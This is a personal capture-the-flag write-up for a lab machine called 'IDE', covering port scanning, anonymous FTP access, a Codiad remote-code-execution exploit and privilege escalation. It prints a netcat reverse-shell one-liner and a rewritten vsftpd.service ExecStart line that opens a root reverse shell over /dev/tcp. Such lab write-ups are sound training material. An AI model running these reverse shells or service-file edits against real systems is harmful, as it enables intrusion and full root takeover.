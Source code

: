 Name: IDE
Date: 10/05/2022
Difficulty: Easy
Description: An easy box to polish your enumeration skills!  
Better Description: If I had time this would be a writeup..
Goals: See how I do under time pressure while enumerating 2 other machines and 1 for learning along side this one
Learnt: Editing service files, escaping limit shell environment

## Recon
```bash
root@ip-10-10-122-213:~# ping -c 3 10.10.74.19
PING 10.10.74.19 (10.10.74.19) 56(84) bytes of data.
64 bytes from 10.10.74.19: icmp_seq=1 ttl=64 time=15.1 ms
64 bytes from 10.10.74.19: icmp_seq=2 ttl=64 time=0.508 ms
64 bytes from 10.10.74.19: icmp_seq=3 ttl=64 time=0.439 ms

--- 10.10.74.19 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2011ms
rtt min/avg/max/mdev = 0.439/5.351/15.107/6.898 ms
root@ip-10-10-122-213:~# nmap -sC -sV -p- 10.10.74.19

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-10 18:39 BST
Stats: 0:53:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.61% done; ETC: 19:59 (0:26:37 remaining)
Stats: 1:09:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.70% done; ETC: 20:04 (0:15:30 remaining)

root@ip-10-10-122-213:~# nmap -sC -sV -p- 10.10.74.19 --min-rate 5000

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-10 19:49 BST
Nmap scan report for ip-10-10-74-19.eu-west-1.compute.internal (10.10.74.19)
Host is up (0.00047s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.122.213
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (EdDSA)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
MAC Address: 02:70:AF:2A:89:D7 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.33 seconds
root@ip-10-10-122-213:~# nikto -h 10.10.74.19:80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.74.19
+ Target Hostname:    ip-10-10-74-19.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2022-05-10 19:51:37 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x2aa6 0x5c5041c240b81 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2022-05-10 19:51:47 (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Loot the ftp server while nikto is scanning 62337:
```bash
root@ip-10-10-122-213:~# wget -r ftp://anonymous:@10.10.74.19:21/
```
Find nothing..Second http nikto scan:
```bash
root@ip-10-10-122-213:~# nikto -h 10.10.74.19:62337
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.74.19
+ Target Hostname:    ip-10-10-74-19.eu-west-1.compute.internal
+ Target Port:        62337
+ Start Time:         2022-05-10 19:55:42 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ Cookie f9c7294bc8f6035df784b56b800b122c created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0x47e 0x5c5045aa328fe 
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /data/: Directory indexing found.
+ OSVDB-3092: /data/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ OSVDB-3092: /INSTALL.txt: Default file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie 1ec459e58a8a15e1c36cd5a362f66d20 created without the httponly flag
+ 6544 items checked: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-05-10 19:55:53 (GMT1) (11 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


```bash
root@ip-10-10-122-213:~# searchsploit codiad

---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities       | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion           | php/webapps/36371.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Blank config troll `http://10.10.74.19:62337/config.php` same for files in /data/

gobuster
```bash
root@ip-10-10-122-213:~# gobuster dir -u http://10.10.74.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.74.19/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2022/05/10 20:02:46 Starting gobuster
===============================================================
/server-status (Status: 403)
===============================================================
2022/05/10 20:03:37 Finished
===============================================================

```

Authenticated [exploit-db](https://www.exploit-db.com/exploits/49705)

```
root@ip-10-10-122-213:~/10.10.74.19/...# mv - file
root@ip-10-10-122-213:~/10.10.74.19/...# ls
file
root@ip-10-10-122-213:~/10.10.74.19/...# cat file
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
John + password, bitnami does not work.


![rce](Screenshots/rce.png)

And remember to follow the instruction I found they worked best if you did the first two in one window.
![stage](Screenshots/staged.png)

AND...

![shell](Screenshots/shell.png)

## PrivEsc

```bash
cat .bash_history
mysql -u drac -p [password]
```
We are in a linux jail of sorts just:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.122.213 3333 >/tmp/f
```
Better shell your way to then su as drac for user.txt 

![toroot](Screenshots/toroot.png)

I changed this to a walkthrough after not have the time to call this a writeup:

[solution](https://jayngng.github.io/blog/ide-thm/)

```bash
find / -writable -name vsftpd* -type f -ls 2>/dev/null;
282032      4 -rw-rw-r--   1 root     drac          248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```
Because we can restart the ftp server and write to this service file we can modify [Service] commmand on startup
```bash
# Comment out this line:
# ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf

ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.122.213/5555 0>&1"
User=root
```
